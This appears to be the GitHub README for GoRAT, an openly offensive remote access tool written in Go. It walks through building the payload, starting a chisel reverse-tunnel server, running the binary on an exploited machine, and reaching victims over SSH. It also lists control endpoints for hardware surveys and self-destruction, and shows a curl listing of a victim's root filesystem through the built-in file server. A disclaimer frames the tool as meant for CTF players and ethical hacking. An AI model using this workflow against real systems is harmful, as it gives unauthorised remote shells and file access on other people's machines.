```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```
![GitHub](https://img.shields.io/github/license/JustinTimperio/GoRAT)
[![Go Reference](https://pkg.go.dev/badge/github.com/JustinTimperio/gomap.svg)](https://pkg.go.dev/github.com/JustinTimperio/gomap)
![Go Report Card](https://goreportcard.com/badge/github.com/JustinTimperio/GoRAT)
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/d343e4d027164076a630448e3102fbf7)](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros       |
|---------------------|---------------------|
| Linux               | Linux               | 
| FreeBSD             | FreeBSD             |
| OpenBSD             | OpenBSD             |
| Linux ARM           | Linux ARM           | 
| FreeBSD ARM         | FreeBSD ARM         |
| OpenBSD ARM         | OpenBSD ARM         |
| Linux MIPS          | Linux MIPS          |
| MacOS               | Windows (kinda)     |
| Windows (kinda)     |                     |

# Installing and Building

1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/)
3. Fill out the MakeFile and run `Make`
4. Transfer the `server` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
5. Exploit your system and run the binary
6. Connect to the "target" via normal ssh from the "attacking" machine


# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
[mr.robot@localhost ~]$ ./start_server.sh 
Chisel Server Listening on 0.0.0.0:1337
Session #1 | SSH Server Mounted On: 46850
Session #1 | Control Server Mounted On: 46851
```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 
![image](goRAT_Architecture.jpg)


# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
